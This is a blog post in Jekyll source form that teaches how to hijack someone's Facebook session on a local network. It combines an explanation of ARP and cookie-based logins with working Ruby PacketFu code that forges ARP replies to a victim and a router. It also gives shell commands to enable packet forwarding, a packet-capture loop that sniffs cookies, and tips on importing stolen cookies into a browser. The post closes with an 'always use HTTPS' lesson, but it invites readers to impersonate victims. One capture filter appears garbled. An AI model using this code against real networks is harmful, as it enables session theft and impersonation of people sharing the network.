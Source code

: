 ```yaml
---
layout: post
title: "How to Steal a Facebook Identity"
category: posts
permalink: "steal-facebook-identity"
featured_image: /images/hack_facebook.jpg 
description: "How to steal a facebook identity. Identity theft in general - a heads up on why you should use HTTPS for all sites you have an account on."
keywords:
- identity theft
- facebook
- security
- arp spoofing
---
```

How to hack cookie based authentication - a.k.a why you should use HTTPS for all sites you have an account on.


*UPDATE: This hack no longer works with Facebook as its https only now. Cool. This technique though can still be applied to other sites.*

So you want to know how to steal someone’s facebook identity. How to impersonate the poor victim. How to post embarrassing status updates, pictures in his/her name. Naughty, aren’t we? Let’s view this as a tech challenge instead, forget the nasty things we could do with it. This howto touches basic online security issues and some networking internals. Prepare for the journey, fasten your seatbelts. 

Guys, first, seriously, this is definitely not a nice thing to do. Really. Don’t do it. Stop reading right now. 

Well, if you still insist… 

Here’s a list of ingredients: 

* A LAN to operate on. It can be your school’s LAN, your workplace or your home router’s network.
* Some basic knowledge about network protocols: ARP, TCP/IP, Ethernet and HTTP
* Ruby skills. Get some. Really. Trust me, it’s worth it!
* A UNIX-based OS. This might work on windows, too, but no guarantees. I use OS X for daily work.
* Patience. Sometimes a lot.

So, let’s get to know the concepts step by step.
## A short intro to ARP

ARP stands for “Address Resolution Protocol” and - well, what do you know - it handles MAC and IP address conversions on a conventional TCP/IP ethernet based network. As you all know, TCP/IP packets are encapsulated in Ethernet packets, and Ethernet only knows those so-called [MAC (Media Access Control)](http://en.wikipedia.org/wiki/MAC_address) addresses, it has no idea about IP addresses or domain names.

When you send a standard TCP/IP packet from your machine, your OS wraps it up in a nice Ethernet packet and asks your network card to kindly send it to the network card which has the destination MAC address (it is much more complicated (routing, etc.) but this is enough for us in this project).

Therefore your OS needs to know which IP address(es) belong to which MAC address. Of course if there’s a router involved (and there must be if you’re on a LAN) it also needs to know this. This table is filled up when ARP messages travel on the network. An ARP announcement or reply message basically says “hey guys, the IP 1.2.3.4 is associated to the mac address 03:f9:06:e4:6b:0b”.

This IP <—-> MAC conversion list is called the ARP table or ARP cache. We are going to ‘poison’ this table. More on this a few paragraphs later.

## A few thoughts on sessions, users and logins

Most sites are using cookies to handle user logins and authentication. HTTP is a statelessprotocol. A stateless protocol does not require the server to retain information or status about each user for the duration of multiple requests. To have some kind of identification, we use cookies. A cookie is a key-value pair stored in the browser (so client-side) with two more extra information: lifetime and access control. With each request, if the cookie is still alive (lifetime) and the access control allows the server to receive the cookie, the client sends the cookie in its headers. You can read more on this [here](http://en.wikipedia.org/wiki/HTTP_cookie). The cookies are first sent by the server (or server application) which this way try to store user-level data, such as login state, userid, etc.

For example, the most interesting cookies coming from facebook are: c_user , datr , sct and xs - they are enough to identify session for a logged in user. When we log in to facebook, these cookies get set and on every request the server knows who we are (and that we are logged in) using these cookies which the browser sends back every time. We will  intercept these cookies travelling on the network from our victom to facebook’s servers.

## How to intercept communication on a LAN

This is actually easier than you’d think, thanks to serious security flaws in the design of the ARP protocol. Well, ARP is old and back then there weren’t so big security concerns.

Basically we’re going to lie to our victim’s machine saying we’re the router, and also lie to the router saying we’re the victim’s machine.

Let’s imagine a network with 3 hosts: 1 router and 2 client ‘user’ machines. The router has the IP 10.0.0.1 and the clients have 10.0.0.100 and 10.0.0.101. We are 10.0.0.100 and our victim is 10.0.0.101.

To achieve this, recall ARP. We send an ARP announcement/reply to the victim’s machine stating that the router’s IP address is associated to our MAC address, thus every TCP/IP package sent to the router by the victim’s machine will actually be sent to us. The other half of the story is that we also send an ARP message to the router saying that the victim’s IP address is associated to our MAC address this way we get the response packages coming from the router to the client. Then all we need to do is read the travelling packages while forwarding them respectively to the router and the client (so that packages really also reach their destination).

Well, we also need to enable something in the OS which is called ‘packet forwarding’ so that packages not targeted to us get accepted and parsed.

In linux, it is a simple
{% highlight bash %}
echo 1 > /proc/sys/net/ipv4/ip_forward
{% endhighlight %}

In OS X, it’s a bit different
{% highlight bash %}
sysctl -w net.inet.ip.forwarding=1
{% endhighlight %}

 
## Now the stage is set to do some programming.

We will use ruby (1.8 and 1.9 are both good), and we will need the gem called ’PacketFu’ and its dependency PcapRub which is a ruby wrapper to the libpcap library. These will help us with low-level network operations and packet capturing, parsing.

First things first, let’s send out the ARP spoofing packages:

{% highlight ruby %}
arp_packet_victim = PacketFu::ARPPacket.new()
arp_packet_victim.eth_saddr = 'd2:7b:9c:71:7b:6f'       # our MAC address
arp_packet_victim.eth_daddr = 'd4:9e:cb:08:5a:27'       # the victim's MAC address
arp_packet_victim.arp_saddr_mac = 'd2:7b:9c:71:7b:6f'   # our MAC address
arp_packet_victim.arp_daddr_mac = 'd4:9e:cb:08:5a:27'   # the victim's MAC address
arp_packet_victim.arp_saddr_ip = '10.0.0.1'             # the router's IP
arp_packet_victim.arp_daddr_ip = '10.0.0.101'           # the victim's IP
arp_packet_victim.arp_opcode = 2                        # arp code 2 == ARP reply

arp_packet_router = PacketFu::ARPPacket.new()
arp_packet_router.eth_saddr = 'd2:7b:9c:71:7b:6f'       # our MAC address
arp_packet_router.eth_daddr = '29:ef:54:43:78:32'       # the router's MAC address
arp_packet_router.arp_saddr_mac = 'd2:7b:9c:71:7b:6f'   # our MAC address
arp_packet_router.arp_daddr_mac = '29:ef:54:43:78:32'   # the router's MAC address
arp_packet_router.arp_saddr_ip = '10.0.0.101'           # the victim's IP
arp_packet_router.arp_daddr_ip = '10.0.0.1'             # the router's IP
arp_packet_router.arp_opcode = 2                        # arp code 2 == ARP reply

# we send out both packages
arp_packet_victim.to_w(@interface)
arp_packet_router.to_w(@interface)
 {% endhighlight %}

Actually in a real-world situation we need to keep sending these packages during the whole capturing session, for example in a thread.

Now we start a capturing session on the designated interface with some default filtering (port: 80 and HTTP requests. See the filter format docs for more info)

{% highlight ruby %}
capture_session = PacketFu::Capture.new(:iface => 'eth0', :start => true, :promisc => true, :filter => "tcp port 80 and (((ip[2:2] - ((ip[0]&0xf)<>2)) != 0)")
{% endhighlight %}


Now we only need to see if there’s any cookie travelling:
{% highlight ruby %}
capture_session.stream.each { |packet|
  puts "Woohoo I found a cookie" if packet =~ /ookie/
}
{% endhighlight %}

 

Nice and easy. We can then parse these cookies and save them in for example netscape cookie format, which we can import  to a browser session with a firefox plugin called Cookie importer.

### So, what is the lesson? Always use HTTPS. Always.

*UPDATE*

I’ve published the code: [https://github.com/ochronus/ArpSpoof](https://github.com/ochronus/ArpSpoof)
